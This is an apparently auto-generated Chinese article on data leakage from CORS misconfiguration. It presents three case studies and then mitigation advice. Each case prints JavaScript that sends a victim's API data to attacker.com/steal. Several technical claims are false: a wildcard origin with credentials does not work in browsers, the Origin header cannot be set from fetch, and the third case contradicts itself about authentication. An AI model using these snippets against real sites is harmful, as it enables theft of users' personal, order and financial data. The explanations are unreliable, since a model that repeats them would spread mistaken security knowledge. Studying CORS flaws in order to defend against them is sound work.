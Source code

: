 # CORS配置错误导致的数据泄露的案例分析

## 1. 概述

跨域资源共享（CORS，Cross-Origin Resource Sharing）是一种允许浏览器向不同域名的服务器发起请求的机制。CORS配置错误可能导致敏感数据泄露，攻击者可以利用这些错误配置，绕过同源策略，获取本应受保护的资源。本文将通过分析真实世界中的CORS配置错误案例，探讨其原理、攻击方式及防范措施。

## 2. 原理

CORS配置错误通常发生在服务器端，当服务器在响应头中错误地配置了`Access-Control-Allow-Origin`字段时，攻击者可以构造恶意请求，获取本应受保护的资源。常见的CORS配置错误包括：

- **`Access-Control-Allow-Origin`设置为`*`**：允许所有域名访问资源，导致任何网站都可以获取敏感数据。
- **`Access-Control-Allow-Origin`动态设置为请求的`Origin`**：未对请求的`Origin`进行验证，导致攻击者可以伪造`Origin`，获取资源。
- **`Access-Control-Allow-Credentials`设置为`true`**：允许携带凭据（如Cookies），结合错误的`Access-Control-Allow-Origin`配置，可能导致敏感数据泄露。

## 3. 案例分析

### 3.1 案例一：某社交平台的CORS配置错误

**背景**：某社交平台的API接口在处理跨域请求时，错误地将`Access-Control-Allow-Origin`设置为`*`，并且允许携带凭据（`Access-Control-Allow-Credentials: true`）。

**攻击过程**：
1. 攻击者构造一个恶意网站，并在其中嵌入以下JavaScript代码：
   ```javascript
   fetch('https://victim.com/api/user/data', {
       credentials: 'include'
   })
   .then(response => response.json())
   .then(data => {
       fetch('https://attacker.com/steal', {
           method: 'POST',
           body: JSON.stringify(data)
       });
   });
   ```
2. 当用户访问该恶意网站时，浏览器会向`https://victim.com/api/user/data`发起请求，并携带用户的Cookies。
3. 由于`Access-Control-Allow-Origin`设置为`*`，服务器允许该请求，并返回用户的敏感数据。
4. 攻击者通过`fetch`将获取的数据发送到自己的服务器，完成数据窃取。

**结果**：攻击者成功获取了用户的敏感数据，包括个人信息、好友列表等。

### 3.2 案例二：某电商网站的CORS配置错误

**背景**：某电商网站在处理跨域请求时，动态地将`Access-Control-Allow-Origin`设置为请求的`Origin`，但未对`Origin`进行验证。

**攻击过程**：
1. 攻击者构造一个恶意网站，并在其中嵌入以下JavaScript代码：
   ```javascript
   fetch('https://victim.com/api/order/history', {
       headers: {
           'Origin': 'https://attacker.com'
       },
       credentials: 'include'
   })
   .then(response => response.json())
   .then(data => {
       fetch('https://attacker.com/steal', {
           method: 'POST',
           body: JSON.stringify(data)
       });
   });
   ```
2. 当用户访问该恶意网站时，浏览器会向`https://victim.com/api/order/history`发起请求，并携带用户的Cookies。
3. 服务器未对`Origin`进行验证，直接将`Access-Control-Allow-Origin`设置为`https://attacker.com`，并返回用户的订单历史数据。
4. 攻击者通过`fetch`将获取的数据发送到自己的服务器，完成数据窃取。

**结果**：攻击者成功获取了用户的订单历史数据，包括购买记录、支付信息等。

### 3.3 案例三：某金融应用的CORS配置错误

**背景**：某金融应用在处理跨域请求时，错误地将`Access-Control-Allow-Origin`设置为`*`，并且未设置`Access-Control-Allow-Credentials`，但返回的敏感数据未进行身份验证。

**攻击过程**：
1. 攻击者构造一个恶意网站，并在其中嵌入以下JavaScript代码：
   ```javascript
   fetch('https://victim.com/api/account/balance')
   .then(response => response.json())
   .then(data => {
       fetch('https://attacker.com/steal', {
           method: 'POST',
           body: JSON.stringify(data)
       });
   });
   ```
2. 当用户访问该恶意网站时，浏览器会向`https://victim.com/api/account/balance`发起请求。
3. 由于`Access-Control-Allow-Origin`设置为`*`，服务器允许该请求，并返回用户的账户余额信息。
4. 攻击者通过`fetch`将获取的数据发送到自己的服务器，完成数据窃取。

**结果**：攻击者成功获取了用户的账户余额信息，尽管未携带凭据，但由于未进行身份验证，仍然泄露了敏感数据。

## 4. 防范措施

### 4.1 正确配置`Access-Control-Allow-Origin`

- **限制允许的域名**：将`Access-Control-Allow-Origin`设置为特定的可信域名，而不是`*`。
- **动态验证`Origin`**：在服务器端对请求的`Origin`进行验证，仅允许可信的域名访问资源。

### 4.2 谨慎使用`Access-Control-Allow-Credentials`

- **仅在必要时启用**：仅在确实需要携带凭据的情况下，将`Access-Control-Allow-Credentials`设置为`true`。
- **结合`Access-Control-Allow-Origin`使用**：在启用`Access-Control-Allow-Credentials`时，确保`Access-Control-Allow-Origin`设置为特定的可信域名，而不是`*`。

### 4.3 实施身份验证和授权

- **验证用户身份**：在处理敏感数据的请求时，确保用户已通过身份验证。
- **实施访问控制**：根据用户的权限，限制其对敏感数据的访问。

### 4.4 定期审查和测试

- **定期审查CORS配置**：定期检查服务器的CORS配置，确保其符合安全要求。
- **进行安全测试**：通过渗透测试等手段，检测和修复潜在的CORS配置错误。

## 5. 结论

CORS配置错误可能导致严重的数据泄露问题，攻击者可以利用这些错误配置，绕过同源策略，获取本应受保护的资源。通过分析真实世界中的案例，我们可以看到，正确配置CORS、谨慎使用`Access-Control-Allow-Credentials`、实施身份验证和授权，以及定期审查和测试，是防范CORS配置错误导致的数据泄露的关键措施。开发者应高度重视CORS配置的安全性，确保Web应用的安全性和用户数据的隐私。

---

*文档生成时间: 2025-03-11 17:51:10*
